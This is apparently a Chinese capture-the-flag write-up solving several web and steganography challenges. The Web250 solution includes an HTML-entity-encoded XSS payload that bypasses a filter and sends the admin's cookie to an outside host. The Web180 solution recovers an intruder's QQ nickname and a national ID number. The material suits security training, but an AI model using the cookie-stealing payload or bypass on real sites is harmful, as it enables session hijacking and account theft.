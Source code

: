 <http://www.secureworks.com/cyber-threat-intelligence/threats/malware-analysis-of-the-lurk-downloader/>

根据文中的方法，把RGB中B的bytes提取出来，然后8位一组进行重组，最后得到KEY：

Xd$eC@2o14

**Web200**

题目提示是一个python写的网站，需要尝试获得flag，并提示看help。首先访问/help，可以得到readme的提示，访问/read，可以获取网站的py代码，但是一次只有两行。尝试了几次，由于代码有重复行，没想到有好的自动化方法，于是就手动收集吧 0.0

最终经过不懈努力和拼接，收集到了网站的python代码完整版（貌似是对的……）：

然后看到博客里面的提示：

<http://www.leavesongs.com/PENETRATION/web-py-runcode-tip.html>

so…直接访问getflag，传参数unabletoread为le4f.net，抓包即可以在HTTP里面获取到flag:

XDCTF{X1di4nUn1Vers1tySecT3AM}

&nbsp;

**Web150**

本地搭了个PHP环境，然后进行抓包，看到有stmp的密码，就是key:

XDSE@L0VEr2014

**Web180**

首先下载了整站源码，在网站根目录下发现about.asp的大马，发现一个qq:2725629821，这个应该是入侵者的qq，根据题目要求需要找到昵称和身份证号码，于是查找一下这个qq号，

根据上面的信息得到了昵称：gh0st2014

和身份证前几位：61011619850507

在他空间中找到了这张图片：

于是还原出身份证号码：610116198505073895提交了发现不对，应该是地区对应的号码有问题，用burp进行爆破，最后发现正确的是：

gh0st2014

610121198505073895

登陆后获得key：

key:Welcome@Xidan$@clov@r

&nbsp;

**Web250**

登陆后发现是个留言板，需要插入xss代码，从管理的cookie里获取flag，测试了多组，发现过滤了：&#8221;  &#8216;  =   (  )    \   document

但是只要 插入[string]都会变成<string>

于是利用<svg><script>html编码后的code<script>进行绕过：

插入如下代码：

\[svg\]\[script\]&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#61;&#34;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#98;&#98;&#115;&#46;&#100;&#117;&#116;&#115;&#101;&#99;&#46;&#99;&#110;&#47;&#49;&#46;&#112;&#104;&#112;&#63;&#99;&#61;&#34;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#59;[/script]
